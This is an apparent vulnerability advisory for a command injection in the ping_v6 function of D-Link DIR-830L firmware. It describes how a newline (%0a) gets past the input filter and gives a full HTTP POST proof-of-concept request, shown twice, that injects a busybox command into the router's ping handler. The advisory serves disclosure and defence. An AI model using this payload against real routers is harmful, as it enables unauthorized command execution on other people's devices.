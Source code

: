 # Summary
There is a command injection vulnerability in `ncc2` binary file of D-Link DIR830LA1_FW100B07, which can lead to arbitrary command execution.

Fimware download link : https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `ping_v6`, which is `sub_4A43A4` decompiled by IDA.

# Details
The same as `ping_v4`, `ping_v6` is also called in `callback_ccp_ping`:
![image](https://github.com/user-attachments/assets/4913fe82-8048-4648-8b26-2a357ddea50e)

Audit function `sub_4A43A4`, parameter `ip_addr` is from front-end and is user controllable and will eventually be spliced into the parameters of `_system` function:
![image](https://github.com/user-attachments/assets/0583ec5a-14c0-4933-9a1f-261c7f508da6)


Although `ip_addr` is filtered previously, 
- \`
- \'
- \\
- ;

we can bypass it by using `%0a`:
```
ip_addr=127.0.0.1%0abusybox >/www/poc2.html
```

Inadequate filter of parameter `ip_addr` leads to command injection vulnerability.

PoC:
(**Login** first to get your cookie)
```html
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=GLW7nuM5Vi

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 62



ccp_act=ping_v6&&ping_addr=127.0.0.1%0abusybox >/www/poc2.html
```
![image](https://github.com/user-attachments/assets/f333aab8-ecd9-4fb1-ac3b-83fdc909b117)

After sending payload, visit `/poc2.html` to see the result of command execution:
![image](https://github.com/user-attachments/assets/576b93e1-5fae-4fc3-8914-afecca422389)


# PoC
(**Login** first to get your cookie)
```html
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=GLW7nuM5Vi

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 62



ccp_act=ping_v6&&ping_addr=127.0.0.1%0abusybox >/www/poc2.html
```
![image](https://github.com/user-attachments/assets/f333aab8-ecd9-4fb1-ac3b-83fdc909b117)

![image](https://github.com/user-attachments/assets/576b93e1-5fae-4fc3-8914-afecca422389)
